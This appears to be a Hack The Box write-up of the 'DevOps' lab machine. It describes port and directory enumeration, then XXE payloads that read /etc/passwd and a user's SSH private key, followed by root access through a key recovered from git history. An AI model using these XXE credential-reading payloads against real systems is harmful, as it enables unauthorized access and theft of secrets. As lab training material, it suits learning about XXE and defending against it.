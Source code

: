 # Hack The Box: DevOps machine write-up

This machine was quite interesting and not so difficult, as it was based on an XML external entity attack which lead to user and then just a basic .git inspection, which is similar to some CTF challenges I had previously done. Its ip is 10.10.10.91.

### Enumeration

As always, first of all I enumerate open ports to discover the services running in the machine. I ran the following:

```sh
nmap -sC -sV -oA nmap/initial 10.10.10.91
```

And the result was:

```sh
# Nmap 7.01 scan initiated Wed Sep  5 23:42:28 2018 as: nmap -sV -sC -oA nmap/initial 10.10.10.91
Nmap scan report for 10.10.10.91
Host is up (0.89s latency).
Not shown: 998 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 42:90:e3:35:31:8d:8b:86:17:2a:fb:38:90:da:c4:95 (RSA)
|_  256 b7:b6:dc:c4:4c:87:9b:75:2a:00:89:83:ed:b2:80:31 (ECDSA)
5000/tcp open  http    Gunicorn 19.7.1
|_http-server-header: gunicorn/19.7.1
|_http-title: Site doesn't have a title (text/html; charset=utf-8).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Sep  5 23:42:40 2018 -- 1 IP address (1 host up) scanned in 12.14 seconds
```

So we find that there is a web server listening on port 5000, which is not the default port 80. Upon visiting the webpage, we get the following:

*Initial message*

![Img](images/initial.png "Img")

Nothing to check, so I decide to run background recognition with dirb:

```sh
-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Thu Sep  6 00:12:15 2018
URL_BASE: http://10.10.10.91:5000/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612                                                          

---- Scanning URL: http://10.10.10.91:5000/ ----

+ http://10.10.10.91:5000/feed (CODE:200|SIZE:546263)                          
+ http://10.10.10.91:5000/upload (CODE:200|SIZE:347)                           

-----------------
END_TIME: Thu Sep  6 00:22:05 2018
DOWNLOADED: 4612 - FOUND: 2
```

Something interesting!

*Upload page*

![Img](images/upload.png "Img")

Looks like there is a test API to upload XML files... Definitely suspicious, we're on the right track. The file needs to have three elements: Author, Subject and Content, so let's craft a new XML file to test the functionality.

At first I uploaded this file:

```XML
<?xml version="1.0" encoding="UTF-8"?>
<file>
	<Author>John, Doe</Author>
	<Subject>Hello</Subject>
	<Content>Computers</Content>
</file>
```

Which resulted in the following output:

*Output page*

![Img](images/output.png "Img")

### Exploit

This reminded me of XXE, so I modified the file a bit to try to access the ``/etc/passwd`` file.

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE GVI [<!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<file>
	<Author>John, Doe</Author>
	<Subject>&xxe;</Subject>
	<Content>Computers</Content>
</file>
```

If this worked, the resulting page would list the contents of the file. Let's see the output:

*Output page (second test)*

![Img](images/passwd.png "Img")

And indeed it works!

From there we can extract the following path: ``/home/roosa``, which now we're going to use to get the RSA private key used in the SSH service we saw before. The new file will thus be:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE GVI [<!ENTITY xxe SYSTEM "file:///home/roosa/.ssh/id_rsa" >]>
<file>
	<Author>John, Doe</Author>
	<Subject>&xxe;</Subject>
	<Content>Computers</Content>
</file>
```

And we get roosa's private [key](roosa.key). Then, we just log in through ssh with the following command: ``ssh -i roosa.key roosa@10.10.10.91`` (we must remember to change file permissions to 600, otherwise this won't work).

And we're in an can read the hash in ``user.txt``:

*Getting user hash*

![Img](images/user.png "Img")

### Root

Once logged in, we notice some interesting directories: ``deploy`` and ``work``. I decide to have a look at them. It turned out ``deploy`` was just the webpage we saw earlier, but then I found something in ``work``:

```console
roosa@gitter:~$ ls -al work
total 12
drwxrwxr-x  3 roosa roosa 4096 Mar 21 07:17 .
drwxr-xr-x 22 roosa roosa 4096 May 29 10:32 ..
drwxrwx---  5 roosa roosa 4096 Mar 21 05:29 blogfeed
roosa@gitter:~$ ls -al work/blogfeed
total 28
drwxrwx--- 5 roosa roosa 4096 Mar 21 05:29 .
drwxrwxr-x 3 roosa roosa 4096 Mar 21 07:17 ..
drwxrwx--- 8 roosa roosa 4096 Mar 26 06:13 .git
-rw-rw---- 1 roosa roosa  104 Mar 19 09:24 README.md
drwxrwx--- 3 roosa roosa 4096 Mar 19 09:31 resources
-rwxrw-r-- 1 roosa roosa  180 Mar 21 05:29 run-gunicorn.sh
drwxrwx--- 2 roosa roosa 4096 Mar 26 06:43 src
```

There is a git repo! That means we can check previous stages of the project.

*git log output*

![Img](images/git-log.png "Img")

I decide to go back to the second commit because it says that it contains the `key for feed integration from tnerprise backend`, which looks promising.

As we're in a public environment with lots of people I won't do ``git checkout {commit}``, which would restore all files to that point in history for everyone. Instead, I used ``git diff {commit}`` to get the changes made between that commit and the one I'm on.

*git diff output*

![Img](images/git-diff.png "Img")

Voilà! We just discovered that our ``roosa.key`` (highlighted in green) replaced a previous key (in red). Let's recover it!

I didn't know where to use it, but seeing it was an SSH key I decided to use it again, this time with root user:

*Using the key to log in as root*

![Img](images/root.png "Img")

And that's all! I hope you enjoyed and learned something!

---

*Diego Bernal Adelantado*
